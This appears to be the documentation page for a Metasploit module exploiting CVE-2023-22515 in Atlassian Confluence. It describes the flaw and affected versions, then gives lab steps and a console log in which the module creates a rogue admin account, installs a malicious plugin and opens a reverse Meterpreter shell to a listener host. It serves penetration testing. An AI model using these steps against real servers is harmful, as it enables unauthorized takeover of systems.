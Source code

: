 ## Vulnerable Application
This module exploits an improper input validation issue in Atlassian Confluence, allowing arbitrary HTTP
parameters to be translated into getter/setter sequences via the XWorks2 middleware and in turn allows for
Java objects to be modified at run time. The exploit will create a new administrator user and  upload a
malicious plugins to get arbitrary code execution. All versions of Confluence between 8.0.0 through to 8.3.2,
8.4.0 through to 8.4.2, and 8.5.0 through to 8.5.1 are affected.

For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis).

## Testing
Download and install a [vulnerable version of Atlassian Confluence](https://www.atlassian.com/software/confluence/download.).
By default the server will listen for HTTP connections on port 8090. This exploit module was tested against Confluence
8.5.1 running on Windows Server 2022.

## Verification Steps
Note: Disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/multi/http/atlassian_confluence_rce_cve_2023_22515`
3. `set RHOST 192.168.86.50`
4. `check`
5. `exploit`

## Scenarios

### Automatic
```
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22515) > show options

Module options (exploit/multi/http/atlassian_confluence_rce_cve_2023_22515):

   Name                        Current Setting     Required  Description
   ----                        ---------------     --------  -----------
   CONFLUENCE_PLUGIN_TIMEOUT   30                  yes       The timeout to wait when installing a plugin
   CONFLUENCE_TARGET_ENDPOINT  server-info.action  yes       The endpoint used to trigger the vulnerability.
   Proxies                                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      192.168.86.50       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metas
                                                             ploit.html
   RPORT                       8090                yes       The target port (TCP)
   SSL                         false               no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                   /                   yes       Base path for Confluence
   VHOST                                           no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22515) > check
[*] 192.168.86.50:8090 - The target appears to be vulnerable. Atlassian Confluence 8.5.1
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22515) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Atlassian Confluence 8.5.1
[*] Setting the application configuration's setupComplete to false via endpoint: /server-info.action
[*] Creating a new administrator user account...
[*] Created zskghlfv:NDqbcj4N
[*] Adding a malicious plugin...
[*] Waiting for plugin to be installed...
[*] Triggering payload...
[*] Deleting plugin...
[*] Sending stage (57692 bytes) to 192.168.86.50
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:56898) at 2023-10-16 20:41:57 +0100

meterpreter > getuid
Server username: WIN-V28QNSO2H05$
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_IE
Meterpreter     : java/windows
meterpreter > pwd
C:\Program Files\Atlassian\Confluence
meterpreter > 
```
